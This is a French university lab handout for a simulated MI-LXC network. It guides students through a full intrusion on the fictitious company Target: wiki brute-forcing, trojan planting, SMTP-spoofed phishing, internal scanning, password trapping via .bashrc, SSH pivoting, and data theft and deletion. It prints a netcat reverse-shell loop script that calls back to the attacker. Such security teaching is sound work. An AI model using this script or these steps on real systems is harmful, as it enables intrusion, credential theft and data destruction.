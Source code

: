 # TP 1 : Intrusion

_François Lesueur ([francois.lesueur@insa-lyon.fr](mailto:francois.lesueur@insa-lyon.fr))_

Ce TP sera réalisé dans la VM MI-LXC disponible [ici](https://filesender.renater.fr/?s=download&token=48a9bf06-d3a3-4cc1-857a-a23c9513568d). L'infrastructure déployée simule plusieurs postes dont un SI d'entreprise (firewall, DMZ, intranet, authentification centralisée, serveur de fichiers, quelques postes de travail interne de l'entreprise _Target_), une machine d'attaquant (isp-a-hacker) et quelques autres servant à l'intégration de l'ensemble. La compréhension plus fine du SI de l'entreprise ciblée fait partie des objectifs du TP.

> Pour les curieux, le code de MI-LXC, qui sert à générer cette VM automatiquement, est disponible avec une procédure d'installation documentée [ici](https://github.com/flesueur/mi-lxc)

<!--  ou dans la VM "tp-sec-debian" disponible en salle de TP (`/machines_virtuelles/secu_vms/master/tp-sec-debian.sh`, debian/debian et root/root). L'infrastructure déployée simule plusieurs postes dont un SI d'entreprise (firewall, DMZ, intranet, authentification centralisée, serveur de fichiers, quelques postes de travail interne), une machine d'attaquant (hacker) et quelques autres servant à l'intégration de l'ensemble. La compréhension plus fine du SI de l'entreprise ciblée fait partie des objectifs du TP. -->


Vous devez vous connecter à la VM en root/root. MI-LXC est déjà installé et l'infrastructure déployée, il faut avec un terminal aller dans le dossier `/root/mi-lxc`. Pour démarrer l'infrastructure, tapez `./mi-lxc.py start`. Une fois l'environnement démarré, la seule machine à utiliser est évidemment celle du hacker, affichable avec la commande `./mi-lxc.py display isp-a-hacker`. Ceci lance un affichage sur la machine du hacker (avec l'outil "Xephyr"). Si la souris reste bloquée dans cette fenêtre, appuyez sur CTRL+SHIFT pour la libérer. Un tuto vidéo de démarrage est proposé [ici](https://videos.insa-lyon.net/videos/?video=MEDIA200924154800396).

> Dans la VM et sur les machines MI-LXC, vous pouvez installer des logiciels supplémentaires. Par défaut, vous avez mousepad pour éditer des fichiers de manière graphique. La VM peut être affichée en plein écran. Si cela ne fonctionne pas, il faut parfois changer la taille de fenêtre manuellement, en tirant dans l'angle inférieur droit, pour que VirtualBox détecte que le redimensionnement automatique est disponible. Il y a une case adéquate (taille d'écran automatique) dans le menu écran qui doit être cochée. Si rien ne marche, c'est parfois en redémarrant la VM que cela peut se déclencher. Mais il *faut* la VM en plein écran.


Déroulement général
===================

Votre objectif est de voler et détruire les informations internes de l'entreprise _Target_ (données comptables, base clients). Pour ce faire, vous travaillerez exclusivement sur la machine du hacker. Une première reconnaissance vous a amené à savoir que votre cible héberge un wiki sur `http://www.target.milxc`. Vous devrez réaliser les étapes suivantes :

* Récupération d'une adresse mail interne sur le wiki
* Altération du wiki en y intégrant un cheval de Troie prêt à être téléchargé par un interne
* Manipulation du commercial pour lui faire installer ce cheval de Troie (via un téléchargement interne donc plus crédible qu'une pièce jointe)
* Utilisation du cheval de Troie pour scanner le réseau interne
* Pivot vers la machine hébergeant les données ciblées
* Transfert puis suppression des données comptables et de la base clients
* Profit $$$

Le fil proposé ne couvre bien sûr pas l'ensemble des possibilités mais vise à montrer la diversité des moyens qu'un attaquant peut mettre en œuvre.

Préparation du cheval de Troie
==============================

Pour contrôler la machine du commercial, nous allons créer puis transmettre un cheval de Troie. Notre but est d'obtenir un shell sur la machine du commercial afin de l'utiliser comme pivot. Cependant, comme le firewall n'autorise pas les connexions vers l'intérieur de l'entreprise, nous allons plus spécifiquement envoyer un reverse-shell : c'est la machine du commercial qui initiera la connexion vers la machine du hacker.

Le code exemple suivant est disponible sur la machine du hacker (`/home/debian/tp/intrusion/trojan.sh`) :
```
#!/bin/bash
while [ 1 ]; do
	/bin/nc <IP Hacker> <Port Hacker> -q0 -e /bin/bash;
	sleep 1;
done
```

* Étudiez ce petit script, son fonctionnement, le programme nc (netcat). Pourquoi y a-t-il une boucle infinie ?
* Configurez et manipulez ce script en local pour ouvrir un reverse-shell avec vous-mêmes.
* Il existe plusieurs façons d'améliorer le shell obtenu (interactivité, gestion Ctrl-C, sortie d'erreur, autocomplétion, etc.), vous pouvez par exemple remplacer nc par socat comme expliqué [ici](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou appeler nc dans rlwrap.

> Une fois ce point compris, signalez-vous à un enseignant pour en discuter de vive voix

Altération du wiki
==================

Le wiki est accessible publiquement mais une authentification est nécessaire pour lire et écrire. Vous disposez dans le dossier `/home/debian/tp/intrusion` d'un script `dokuwiki.py` pour tenter de _bruteforcer_ l'authentification. Étudiez son fonctionnement puis tentez de découvrir un accès. Pour vous aider, des listes de mots de passes communs sont disponibles sur internet ([Wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords)), un dictionnaire au format adapté au script fourni est proposé [ici](passwords.txt). À partir de cet accès, créez une page crédible (mise à jour, installation d'un logiciel, etc.), intégrant le `.sh` que vous aurez préparé comme reverse-shell.


Corruption de la machine du commercial
======================================

Vous devez maintenant amener le commercial à exécuter votre cheval de Troie sur sa machine. Vous devez faire attention à envoyer un mail crédible, social-engineering, qui pousse le commercial à suivre les instructions. Notamment, pensez à faire du SMTP spoofing en changeant votre identité d'expéditeur. Dans un cas réel, il suffirait qu'un seul employé installe le cheval de Troie pour que l'attaque fonctionne

Appelez l'enseignant pour jouer le rôle du commercial, vérifiez le fonctionnement.

> Si un problème technique empêche l'enseignant de réaliser cette partie, vous devez afficher la machine target-commercial en tant que commercial : `./mi-lxc.py display commercial@target-commercial`, puis aller lire les mails et réaliser les tâches demandées (le mail envoyé depuis le hacker doit apparaître ici).

Scan du réseau interne
======================

Il vous faut maintenant explorer le réseau pour trouver votre cible. Le programme `nmap` est un scanner réseau, installé sur la machine du hacker mais bien sûr pas du commercial. Il faut donc le transférer pour l'exécuter depuis la machine du commercial. Un serveur web est installé sur la machine du hacker et `nmap` est disponible dans le dossier `/usr/bin`. Le dossier `/var/www/html` du hacker est partagé par un serveur web, le programme en ligne de commande `wget` peut être utilisé côté commercial pour télécharger depuis ce dossier.

Utilisez maintenant nmap sur la machine du commercial pour explorer le réseau interne : `./nmap <adresse de réseau/masque>`. Dessinez un plan de réseau, les services ouverts, les logiciels utilisés, les sites accessibles, les contenus des index des sites web (accessibles avec wget ou curl). Soyez pertinent dans les adresses IP scannées, le scan est assez long.

> Pour connaître l'IP de la machine commercial : `/sbin/ifconfig`, utilisable en non-root pour la consultation des paramètres. Vous verrez que c'est un /16, la partie intéressante est au début de ce /16 : comme le scan est long, scannez plutôt les premiers /24.


Récupération d'un mot de passe valide
=====================================

Pour aller plus loin, vous aurez besoin d'un mot de passe valide sur le SI. Vous pouvez obtenir celui du commercial à partir de l'[analyse de son profil ClawsMail par exemple](https://github.com/AlessandroZ/LaZagne), en ajoutant un piège à son `.bashrc` lui demandant de retaper son mot de passe ou encore en intégrant la saisie lors du lancement du cheval de Troie.

Accès à la machine cible
========================

Pivotez vers la machine hébergeant les données ciblées. Pour faire du SSH, vous aurez besoin d'un shell [amélioré](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou d'utiliser [sshpass](https://srvfail.com/how-to-provide-ssh-password-inside-a-script-or-oneliner/) (disponible sur la machine du commercial). Vous pouvez ensuite utiliser la commande `find` avec les bons arguments pour trouver, sur cette machine cible, les fichiers sur lesquels vous pourriez avoir des droits en écriture.


Bonus
=====

Il existe un chemin d'attaque, qui sera plus difficile à contrôler côté firewall, qui rebondit par la machine `dev`...


Ouverture
=========

[_Ransomwares : quel mode opératoire en 2020 ?_, Amossys](https://blog.amossys.fr/ransomware-2020.html)

Disclaimer
==========

![Bad guy](media/bad.jpg)
_Attention, lui, il l'a fait pour de vrai..._

